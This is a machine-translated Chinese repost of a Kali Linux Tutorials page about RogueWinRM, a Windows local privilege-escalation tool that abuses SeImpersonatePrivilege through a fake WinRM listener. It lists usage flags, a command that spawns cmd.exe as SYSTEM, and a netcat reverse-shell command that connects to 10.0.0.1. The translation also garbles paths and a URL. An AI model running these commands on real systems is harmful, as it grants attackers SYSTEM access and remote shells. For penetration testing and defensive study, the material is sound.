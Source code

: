 # RogueWinRM:从服务帐户到系统的 Windows 本地权限提升

> 原文：<https://kalilinuxtutorials.com/roguewinrm/>

[![RogueWinRM : Windows Local Privilege Escalation From Service Account To System](img/91bf3129a8cb5019bcd22f9719a9859c.png "RogueWinRM : Windows Local Privilege Escalation From Service Account To System")](https://1.bp.blogspot.com/-JQTnTPqVHEQ/X_RvHmEj4sI/AAAAAAAAIP4/_wpxqGToMSsdtWMzmk8VOrcv1pskdFcLwCLcBGAsYHQ/s728/RogueWinRM%25281%2529.png)

**RogueWinRM** 是一个本地权限提升漏洞，如果 WinRM 服务没有运行，它允许从服务帐户(具有 SeImpersonatePrivilege)升级到本地系统帐户(**默认在 Win10 上，但在 Windows Server 2019** 上没有)。

简而言之，它将侦听端口 5985 上的传入连接，假装一个真正的 WinRM 服务。这只是一个最小的 web 服务器，它将尝试与任何试图连接到该端口的服务协商 NTLM 认证。
然后 BITS 服务(作为本地系统运行)被触发，它将尝试对我们的恶意监听器进行身份验证。一旦我们的恶意侦听器通过身份验证，我们就能够模拟本地系统用户，使用这些权限生成任意进程。

您可以在此链接找到关于此漏洞的完整技术描述->[https://decoder . cloud/2019/12/06/we-though-they-be-potato-but-they-be-beans/](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)

**用途**

**RogueWinRM

强制参数:
-p:程序启动

可选参数:
-a:要传递给程序的命令行参数(默认为空)
-l:监听端口(默认为 5985 WinRM)
-d:启用调试输出**

**例题**

![](img/1a32ceec1bc9a551839c718bb38cacaa.png)

*   运行交互式 cmd:

**RogueWinRM.exe-p C:\ windows \ system32 \ cmd . exe**

*   运行 netcat 反向 shell:

**RogueWinRM.exe-p C:\ windows \ temp \ nc64 . exe-a " 10 . 0 . 0 . 1 3001-e cmd "**

**信用**

*   安东尼奥·科科马齐
*   [Andrea Pierini](https://twitter.com/decoder_it)
*   罗伯托(0xea31)

[**Download**](https://github.com/antonioCoco/RogueWinRM)